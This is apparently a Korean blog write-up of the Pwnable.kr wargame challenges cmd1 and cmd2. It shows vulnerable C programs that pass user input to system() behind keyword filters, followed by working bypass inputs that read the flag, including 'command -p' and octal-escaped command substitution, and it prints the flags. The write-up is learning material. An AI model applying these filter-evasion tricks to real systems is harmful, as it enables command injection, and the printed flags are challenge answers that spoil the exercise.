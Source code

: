 ```yaml
---
title : Pwnable.kr - cmd1 & cmd2
categories : [Wargame, Pwnable.kr]
---
```


## cmd1
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
```c
/*  cmd1.c  */

#include <stdio.h>    
#include <string.h>   

int filter(char* cmd){
        int r=0;      
        r += strstr(cmd, "flag")!=0;
        r += strstr(cmd, "sh")!=0;
        r += strstr(cmd, "tmp")!=0;
        return r;
}
int main(int argc, char* argv[], char** envp){
        putenv("PATH=/thankyouverymuch");
        if(filter(argv[1])) return 0;
        system( argv[1] );
        return 0;
}
```

## Solution
```
cmd1@pwnable:~$ ./cmd1 '/bin/cat fla*'
mommy now I get what PATH environment is for :)
```

## cmd2 (풀이 봄)
```
Daddy bought me a system command shell.
but he put some filters to prevent me 
from playing with it without his permission...
but I wanna play anytime I want!
```
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        system( argv[1] );
        return 0;
}
```

## cmd2 Solution(풀이 봄)
```
/bin/cat fla* 가 불가능함.

엄청 오래 생각해봤지만.. 실패해서 답지를 확인함. 

내가 풀이를 보면서 이해한 방법은 두 가지가 있음.
```

### 1. command 명령어 사용
```linux
$ help -- command
command: command [-pVv] command [arg ...]
    Execute a simple command or display information about commands.

    Runs COMMAND with ARGS suppressing  shell function lookup, or display
    information about the specified COMMANDs.  Can be used to invoke commands
    on disk when a function with the same name exists.

    Options:
      -p    use a default value for PATH that is guaranteed to find all of
            the standard utilities
      -v    print a description of COMMAND similar to the `type' builtin
      -V    print a more verbose description of each COMMAND

    Exit Status:
    Returns exit status of COMMAND, or failure if COMMAND is not found.
```
```
command 명령어는 cat 같은 간단한 명령어들을 실행시켜 줄 수 있음. 

command -p 를 해주면 defalut PATH 값으로 명령어를 실행시켜줌.
```
```linux
cmd2@pwnable:~$ ./cmd2 'command -p cat fla*'
command -p cat fla*
FuN_w1th_5h3ll_v4riabl3s_haha
```

### 2. linux ascii-code 중 oct 값 사용
<a href="http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm" target="_blank">http://www.seren.net/documentation/unix%20utilities/Linux_Cheat_Sheet.htm</a>  
Linux Cheat Sheet에 보면 위에 있는 command 명령어도 써있고, 밑에 ASCII-CODE 값도 있음.  
```
dec hex oct char
46  2E \056  .

47  2F \057  /

48  30 \060  0
```
```linux
cmd2@pwnable:~$ ./cmd2 '$(echo "\057"bin"\057"cat fla*)'
$(echo "\057"bin"\057"cat fla*)
FuN_w1th_5h3ll_v4riabl3s_haha
```
printf 명령어로도 되는지 확인해보았음. 
필터링에 걸리는지 확인해보려고 로컬 환경에서 테스트 해봄.
```linux
:~$ ./test '$(printf "\x2fbin\x2fcat fla*")'
0
argv[1] : $(printf "\x2fbin\x2fcat fla*")
:~$ printf "\x2fbin\x2fcat fla*"
/bin/cat fla*
```
잘 나오는 것 같아서 해보니까 실패함.
```linux
cmd2@pwnable:~$ ./cmd2 '$(printf "\x2fbin\x2fcat fla*")'
$(printf "\x2fbin\x2fcat fla*")
sh: 1: \x2fbin\x2fcat: not found
```
직접 system 함수에 인자로 줘봤지만 echo만 나오고 실패.   
그냥 안되나봄.  

